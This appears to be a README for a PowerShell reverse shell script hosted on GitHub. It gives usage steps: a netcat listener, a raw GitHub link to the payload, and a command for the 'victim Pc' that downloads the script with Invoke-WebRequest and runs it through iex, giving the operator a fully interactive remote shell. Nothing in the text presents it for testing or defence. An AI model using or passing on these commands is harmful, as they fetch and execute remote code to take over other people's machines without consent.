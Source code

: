 #INSTRUCTIONS : -
1.) Use netcat to setup a listener `nc -nlvp 'port'`. This will start a listener, make sure the port is accessible over the internet and allows inbound connection.<br> 
2.) Upload the script on github or somewhere to get a raw link of the payload like `https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/powershell_reverse.ps1`.<br>
3.) On the victim Pc open powershell and run `Invoke-webRequest "https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/powershell_reverse.ps1" | iex`. Replace this link with your link.<br> 
You will get a connection on your netcat with a fully interactive shell.<br><br><br> 

(UPDATES ARE UNDERWAY TO ADD FEATURES SUCH AS USING [TAB] FOR AUTO_COMPLETION AND OTHER COOL STUFF.
